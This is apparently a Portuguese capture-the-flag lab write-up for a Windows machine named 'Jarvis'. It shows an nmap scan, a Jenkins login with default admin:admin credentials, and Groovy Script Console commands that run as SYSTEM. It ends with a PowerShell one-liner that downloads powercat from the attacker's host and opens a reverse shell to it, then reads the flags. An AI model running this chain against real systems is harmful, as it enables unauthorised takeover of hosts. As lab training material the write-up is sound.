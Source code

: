 ```yaml
---
title: Jarvis
category: EHPT
---
```


## Enumeração

### Scan inicial

- Executado enumeração inicial com nmap e obtido o seguinte resultado

```plaintext
# Nmap 7.80 scan initiated Sat Jun 20 00:33:04 2020 as: nmap -A -p21,80,135,139,445,7592,7680,49664,49665,49666,49667,49668,49669,49673 -Pn -oA full 10.0.0.10
Nmap scan report for 10.0.0.10
Host is up (0.00061s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
7592/tcp  open  http          Jetty 9.4.z-SNAPSHOT
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
7680/tcp  open  pando-pub?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 1s
| nbstat: NetBIOS name: WIN10X64, NetBIOS user: <unknown>, NetBIOS MAC: 00:15:5d:2a:16:30 (Microsoft)
| Names:
|   WIN10X64<00>         Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  WIN10X64<20>         Flags: <unique><active>
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-20T03:34:00
|_  start_date: 2020-06-20T01:29:47

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 20 00:34:03 2020 -- 1 IP address (1 host up) scanned in 59.16 seconds
```

### 80/TCP - HTTP

- Ao acessar a pagina via navegador, recebido erro 404. Inspecionando o cabeçalho da resposta nao encontrado muitas informações relevantes além do servidor **Microsoft-HTTPAPI/2.0**

### 7592/TCP - Jetty(9.4.z-Snapshot)

- Ao acessar a pagina do navegador identificado que se tratava de uma instalação do Jenkins. Ao tentar acesso usando credenciais padrão as credenciais **admin:admin** funcionaram e foi possível obter acesso à console.

- Pesquisando um pouco sobre o Jenkins, que é uma ferramenta de automação, encontrado dentro de `Manage Jenkins` uma Script Console onde poderia executar alguns comandos.

- pesquisando um pouco sobre como executar comandos nesat ferramenta, que utiliza uma linguagem chamada `Groovy script` obitido o snippet abaixo que me permitiu executar alguns comandos para testar execução de código remota na maquina

```groovy
def cmd = "cmd /c whoami".execute()
println("${cmd.text}")
```

- Ao executar o comando, retornado o resultado abaixo, o que nos dá permissão de SYSTEM na máquina :)

  ![image-20200620005925502](C:\Temp\EHPT\.assets\image-20200620005925502.png)

## Exploração

## Shell reverso

- Uma vez que obtemos execução remota na maquina, a ideia é obter um shell reverso.

- Com a execução obtida, realizada uma enumeração rapida para definir qual o payload para obter o shell reverso

```groovy
def cmd = "powershell Get-WmiObject -Class Win32_OperatingSystem | Select Name,caption,Version,OsArchitecture | fl ".execute()
println("${cmd.text}")
```

```plaintext
Name           : Microsoft Windows 10 
                  Pro|C:\Windows|\Device\Harddisk0\Partition4
caption        : Microsoft Windows 10 Pro
Version        : 10.0.10586
OsArchitecture : 64-bit
```

- A melhor maneira de se obter um shell reverso utilizando powershell é utilizando o powercat. Realizado o clone do projeto na maquina, publicado o arquivo via http e executado o comando abaixo via jenkins

```powershell
def cmd = "powershell -c IEX(New-Object System.Net.WebClient).DownloadString('http://10.0.0.3/powercat.ps1');powercat -c 10.0.0.3 -p 4443 -e cmd".execute()
println("${cmd.text}")
```

- Após obter o shell reverso, obtido a flag de Root conforme o caminho abaixo

```plaintext
C:\Users\Administrator\Desktop>type admin.txt
type admin.txt
1bc690f34128cdaa2d03d6867e22feba
```

- Uma vez que se tem privilégios de SYSTEM no Windows, navegado tambem até a flag de user conforme abaixo

```plaintext
C:\Users\pepper\Desktop>type user.txt
type user.txt
d83031634026e222b92a073869c5e65d
```
